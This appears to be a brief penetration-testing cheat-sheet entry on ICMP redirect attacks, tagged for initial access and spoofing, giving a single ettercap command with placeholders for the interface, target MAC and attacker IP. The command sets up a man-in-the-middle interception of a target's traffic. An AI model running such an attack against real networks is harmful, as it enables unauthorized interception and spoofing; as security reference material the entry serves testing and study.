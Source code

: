 # 05 - ICMP Redirect

Search Tag(s): #initial-access #exploitation #sniffing-and-spoofing #ettercap

```
$ sudo ettercap -Tqi <interface> -M icmp:<target_MAC_address>/<attacker_IP>
```